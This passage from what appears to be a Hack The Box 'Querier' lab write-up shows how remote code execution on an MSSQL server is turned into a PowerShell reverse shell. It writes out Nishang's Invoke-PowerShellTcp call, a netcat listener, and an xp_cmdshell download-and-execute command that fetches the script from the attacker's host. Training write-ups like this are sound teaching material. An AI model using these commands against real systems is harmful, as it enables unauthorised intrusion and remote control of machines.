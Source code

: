 Now that we have RCE, we can find a way to get a proper reverse shell. Since we can now see that the system in Server 2019 (via a `systeminfo` command), I know that Powershell is the best way to get a good shell. In this case, I can use Nishang's `Invoke-PowerShellTCP.ps1` script to initiate the reverse shell via `xp_cmdshell`. However, we need to make sure that we can actually use PowerShell in this manner first.

The best way to test RCE like this is to simply initiate a `ping` command against my own machine using powershell. If I can see the pings via `tcpdump`, then I know that I have access to PowerShell in the RCE method as well.

<a href="/assets/htb-querier/powershell_ping_test.png"><img src="/assets/htb-querier/powershell_ping_test.png" width="95%"></a>

As you can see in the screenshot, the test worked, and we have access to use PowerShell as part of our RCE.

Next step is to copy the Nishang script to our local directory, and modify it to kick off the shell once invoked. I also renamed the file to `revshell.ps1`, to make it easier to type out.

Add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 4444` to the end of the PS1 file. When you do this, PowerShell will run that module instantly, instead of simply loading it to memory first, and waiting for a function to be invoked by the user.

Next, open a listener with `nc -lvnp 4444` to capture the shell when it returns. You'll also need to kick off a Python web server to serve the file with `python -m SimpleHTTPServer 80`.

Now, in the SQL console, we can use `xp_cmdshell powershell IEX(New-Object Net.WebClient).downloadstring(\"http://10.10.14.4/revshell.ps1\")` to tell powershell to grab the file, run it form memory, return our shell.

<a href="/assets/htb-querier/initial_shell_mssql.png"><img src="/assets/htb-querier/initial_shell_mssql.png" width="95%"></a>
